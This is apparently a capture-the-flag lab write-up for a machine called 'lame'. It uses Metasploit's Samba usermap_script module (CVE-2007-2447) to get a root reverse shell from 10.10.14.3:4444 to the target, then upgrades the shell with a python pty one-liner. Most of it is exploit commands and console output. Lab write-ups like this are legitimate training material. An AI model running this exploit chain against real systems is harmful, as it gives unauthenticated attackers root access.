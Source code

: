 ```bash
Description:
  This module exploits a command execution vulnerability in Samba 
  versions 3.0.20 through 3.0.25rc3 when using the non-default 
  "username map script" configuration option. By specifying a username 
  containing shell meta characters, attackers can execute arbitrary 
  commands. No authentication is needed to exploit this vulnerability 
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html

msf6 exploit(multi/samba/usermap_script) > 
```  

I configured the necessary options including setting the target host/port and the local host/port. Executing the exploit started a reverse shell on the target as the root user.   

```bash
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
```  

Next, i upgraded my shell using python in order to get a more functioning shell.   

```bash
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# 
```  
